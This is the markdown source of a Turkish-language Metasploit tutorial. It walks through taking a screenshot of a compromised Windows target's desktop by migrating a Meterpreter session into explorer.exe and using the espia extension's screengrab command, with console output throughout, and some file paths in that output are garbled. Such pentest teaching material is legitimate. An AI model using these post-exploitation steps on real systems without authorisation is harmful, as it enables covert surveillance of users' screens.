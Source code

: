 ```yaml
---
draft: false
title: MSF Ekran Yakalama
linkTitle: Ekran Yakalama
translationKey: msf-screenshot
date: 2017-06-05T13:38:00+03:00
weight: 250
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.
url: /tr/msf-ekran-yakalama/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit
  - framework
---
```

## Ekran Yakalama

Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.

Meterpreter oturum açtığınızda, oturumu `explorer.exe` prosesine taşınmalısınız. Aşağıdaki örnekte öncelikle sistemde çalışan programlar kontrol edilmektedir.

Hedef bilgisayarda meterpreter oturum açtığınızı farz ediyoruz. Öncelikle çalışan işlemlere bakalım. Bunun için `ps` komutunu kullanabilirsiniz.

```bash
> Started bind handler
> Trying target Windows XP SP2 - English...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.1.101:34117 -> 192.168.1.104:4444)

meterpreter > ps

Process list
============

    PID   Name                 Path
    ---   ----                 ----
    180   notepad.exe          C:\WINDOWS\system32 otepad.exe
    248   snmp.exe             C:\WINDOWS\System32\snmp.exe
    260   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    284   surgemail.exe        c:\surgemail\surgemail.exe
    332   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    612   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    620   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    648   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    664   GrooveMonitor.exe    C:\Program Files\Microsoft Office\Office12\GrooveMonitor.exe
    728   WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    736   jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    756   msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    816   smss.exe             \SystemRoot\System32\smss.exe
    832   alg.exe              C:\WINDOWS\System32\alg.exe
    904   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    928   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    972   services.exe         C:\WINDOWS\system32\services.exe
    984   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1152  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1164  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1276  nwauth.exe           c:\surgemail wauth.exe
    1296  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1404  svchost.exe          C:\WINDOWS\System32\svchost.exe
    1500  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1652  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1796  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1912  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    2024  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2188  swatch.exe           c:\surgemail\swatch.exe
    2444  iexplore.exe         C:\Program Files\Internet Explorer\iexplore.exe
    3004  cmd.exe              C:\WINDOWS\system32\cmd.exe
```

Örnek çıktıda görüldüğü gibi `explorer.exe` 260 PID numarasıyla çalışmaktadır. `migrate` komutuyla Meterpreter oturumunu `explorer.exe` içine taşıyalım.

```bash
meterpreter > migrate 260
> Migrating to 260...
> Migration completed successfully.
```

Ardından `espia` eklentisini aktif hale getirelim.

```bash
meterpreter > use espia
Loading extension espia...success.
```

`screengrab` komutuyla hedef bilgisayarın Masaüstü görüntüsünü kaydedelim.

```bash
meterpreter > screengrab
Screenshot saved to: /root/nYdRUppb.jpeg
meterpreter >
```

Gördüğünüz gibi Masaüstü resmi yerel bilgisayarımıza kaydedildi. Bu işlemi yaparken `explorer.exe` veya benzeri şekilde klasör ve dosyalar üzerinde işlem yapabilen bir programa geçiş yapmanız önemlidir. Aksi takdirde `screengrab` komutu çalışmayabilir.
